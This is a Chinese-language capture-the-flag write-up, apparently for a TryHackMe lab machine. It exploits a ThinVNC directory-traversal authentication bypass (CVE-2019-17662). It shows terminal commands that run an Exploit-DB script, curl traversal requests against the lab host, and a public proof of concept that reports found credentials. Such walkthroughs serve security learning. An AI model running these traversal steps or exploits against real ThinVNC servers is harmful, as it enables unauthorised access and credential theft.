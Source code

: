 ```
**┌──(dna@deniers)-[~/atlas]
└─$ cp /usr/share/exploitdb/exploits/windows/remote/47519.py ./exploit1.py**

**┌──(dna@deniers)-[~/Documents/THM/ctf/atlas]
└─$ python3 exploit1.py**
Usage:
exploit1.py <host> <port>Example:
{} 192.168.0.10 5888
```

好吧。看起来该漏洞利用将主机名作为第一个参数，将端口作为第二个参数。我将尝试分别用`atlas.thm`和`8080`运行它:

```
**┌──(dna@deniers)-[~/atlas]
└─$ python3 exploit1.py atlas.thm 8080** 
Traceback (most recent call last):
  File "~/atlas/exploit1.py", line 39, in <module>
    main()
  File "~/atlas/exploit1.py", line 36, in main
    exploit(host,port)
  File "~atlas/exploit1.py", line 24, in exploit
    print(body.splitlines()[2])
IndexError: list index out of range
```

显然，有些事情不对劲😭。根据错误消息判断，错误的根源在于脚本的`exploit()`函数，似乎是由于解析某种字符串时出错。以下是我试图调试的漏洞的一个片段:

ThinVNC 认证旁路利用( [Tumamlapalli，2019](https://www.exploit-db.com/exploits/47519) )

**注意**这只是源代码的一个片段，所以我的 AttackBox 的终端输出的错误消息上的行号可能与片段中的行号不匹配。

查看该漏洞的源代码，ThinVNC (1.0b1)似乎存在一个目录遍历漏洞，使得恶意黑客能够读取关于高于 web 服务器根目录的目录的`.ini`文件。我将尝试手动利用这个东西:

```
**┌──(dna@deniers)-[~/atlas]
└─$ curl atlas.thm:8080/xyz/../../ThinVnc.ini**
<HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL ThinVnc.ini was not found on this server.<P></BODY></HTML>

**┌──(dna@deniers)-[~/atlas]
└─$ curl atlas.thm:8080/xyz/../ThinVnc.ini** 
<HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL ThinVnc.ini was not found on this server.<P></BODY></HTML>

**┌──(dna@deniers)-[~/atlas]
└─$ curl atlas.thm:8080/xyz/ThinVnc.ini** 
<HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL xyz/ThinVnc.ini was not found on this server.<P></BODY></HTML>
```

在尝试了几分钟类似的`curl` GET 请求后，我决定进一步研究这个漏洞。看来概念证明被破坏了，由[“muri landoracle”(2021 b)](https://github.com/MuirlandOracle/CVE-2019-17662)设计的更可靠的概念证明将被用于访问系统。我开始将 AG 的漏洞下载到我的攻击箱中，然后对系统进行测试:

```
**┌──(dna@deniers)-[~/atlas]
└─$ python3 CVE-2019-17662.py atlas.thm 8080** _____ _     _    __     ___   _  ____                                                                                          
    |_   _| |__ (_)_ _\ \   / / \ | |/ ___|                                                                                         
      | | | '_ \| | '_ \ \ / /|  \| | |                                                                                             
      | | | | | | | | | \ V / | |\  | |___                                                                                          
      |_| |_| |_|_|_| |_|\_/  |_| \_|\____|                                                                                         

                            @MuirlandOracle
[+] Credentials Found!
```
